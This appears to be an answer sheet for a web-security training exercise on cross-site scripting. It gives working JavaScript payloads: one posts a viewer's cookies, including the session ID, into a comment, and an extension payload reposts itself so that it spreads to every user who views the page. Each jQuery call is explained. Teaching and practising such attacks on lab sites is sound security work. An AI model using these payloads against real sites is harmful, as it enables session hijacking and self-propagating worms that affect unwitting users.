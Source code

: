 Answer Sheet
============

Using Javascript to steal the session ID
----------------------------------------

.. code:: javascript

  <script>
    jQuery.post(
      "?page=comment.php",
      {
        "article_id": 1,
        "body": "My cookies are: " + document.cookie
      }
    )
  </script>


* ``document.cookie`` is the string containing the users' cookies. You can learn more about this string at https://developer.mozilla.org/en-US/docs/Web/API/Document/cookie.


Extension Challenge
----------------------------------------

.. code:: javascript

  This comment will be shared automatically by every user
  who views the page...!

  <script class="evil-script">
    jQuery.post(
      "?page=comment.php",
      {
        "article_id": 1,
        "body": $(".evil-script").first().parent().html()
      }
    )
  </script>

* ``.first()`` is used to get only the first occurrence of the script,
in case the page contains other scripts (or many copies of the script).

* ``.parent()`` is used to get the container of the comment, which
includes both the script and the rest of the text of the comment.

* ``.html()`` is used to get the source code of the tag, including
its Javascript content.

* ``This comment will be shared automatically...`` is the text of the payload
message that will be visible to users and will be reshared automatically.
